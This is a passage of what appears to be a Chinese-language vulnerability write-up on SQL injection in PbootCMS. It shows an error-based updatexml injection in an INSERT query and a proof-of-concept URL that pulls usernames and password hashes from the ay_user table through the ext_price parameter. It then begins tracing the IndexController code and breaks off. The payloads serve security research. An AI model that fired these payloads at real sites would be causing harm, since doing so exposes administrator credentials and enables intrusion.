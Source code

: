 ```sql
$sql = "INSERT INTO ay_message (`content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a`,`create_time`,`update_time`)  SELECT '111','2021-02-21 13:38:58','2021-02-21 13:38:58' UNION All SELECT '2021-02-21 13:39:46','2021-02-21 13:39:46' UNION All SELECT '2021-02-21 13:39:51','2021-02-21 13:39:51' UNION All SELECT '2021-02-21 13:39:53','2021-02-21 13:39:53' UNION All SELECT '2021-02-21 13:40:03','2021-02-21 13:40:03' UNION All SELECT '2021-02-21 13:40:04','2021-02-21 13:40:04' UNION All SELECT '2021-02-21 13:40:13','2021-02-21 13:40:13' UNION All SELECT '2021-02-21 13:40:17','2021-02-21 13:40:17' UNION All SELECT '2021-02-21 13:40:20','2021-02-21 13:40:20' UNION All SELECT '2021-02-21 13:40:22','2021-02-21 13:40:22' UNION All SELECT '2021-02-21 13:40:25','2021-02-21 13:40:25'"
```



![image-20210221134308400](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210221134308400.png)

即发生了注入,拼接了恶意sql语句

```sql
INSERT INTO ay_message (`content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a`,`create_time`,`update_time`)
```

![image-20210221134618323](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210221134618323.png)

## 五、前台首页sql注入

poc:

```php
http://www.pboot.cms/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=12
```



`PbootCMS/apps/home/controller/IndexController.php` , index 方法：

```php
    // parserAfter -> parserSpecifyListLabel
    public function index()
    {
        $content = parent::parser('index.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    }
```

跟进 

```php
$content = $this->parser->parserAfter($content); 这个方法
```
